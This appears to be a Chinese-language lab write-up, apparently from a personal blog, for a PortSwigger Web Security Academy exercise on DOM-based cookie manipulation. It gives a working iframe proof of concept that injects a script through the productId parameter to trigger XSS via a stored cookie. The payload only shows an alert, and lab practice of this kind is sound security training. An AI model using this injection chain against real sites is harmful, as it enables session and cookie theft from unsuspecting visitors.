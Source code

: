 

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/基于DOM的漏洞/images/0E4E58996B544A9EBE3FDD350ABB89EFclipboard.png)

首页的js脚本，将url地址获取的值存入cookie，可能造成危害



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/基于DOM的漏洞/images/5FB4AC813573452889D61B47DE53E955clipboard.png)

last viewed product按钮存在xss漏洞



所以可以构造poc：

```javascript
<iframe src="https://ac5b1fa21e194aa1815019e100d200dc.web-security-academy.net/product?productId=1
&'><script>alert(document.cookie)</script>" 
onload="if(!window.x)
this.src='https://ac5b1fa21e194aa1815019e100d200dc.web-security-academy.net';
window.x=1;">
```

当受害者访问该poc时。iframe标签加载xss。之后重定向到网站首页